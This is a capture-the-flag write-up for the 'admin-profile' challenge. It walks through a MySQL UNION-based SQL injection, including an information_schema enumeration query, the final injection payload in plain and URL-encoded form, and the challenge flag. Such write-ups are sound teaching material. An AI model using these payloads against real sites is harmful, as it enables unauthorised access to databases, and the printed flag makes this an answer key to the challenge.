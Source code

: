 # UMCTF2021 - admin-profile

- Write-Up Author: bluebear \[[MOCTF](https://www.facebook.com/MOCSCTF)\]

- Flag:MOCSCTF{un10n_bas3_1nj3ct10n}

## **Question:**
admin-profile

## Write up

---

* When you type single quotation mark, you will get the MYSQL error.
* Determine the columns/table information under SQL injection UNION attack, such as
```
SELECT table_name FROM information_schema.tables
```
* Remember to add special character **#** to end of SQL statement.
* Final payload
```
admin' UNION SELECT id,fl4g,3 FROM `f1ag`#
```
After URL encoded,
```
admin%27%20UNION%20SELECT%20id,fl4g,3%20FROM%20`f1ag`%23
```
* you will get the flag **MOCSCTF{un10n_bas3_1nj3ct10n}**
![img](./resolve.png)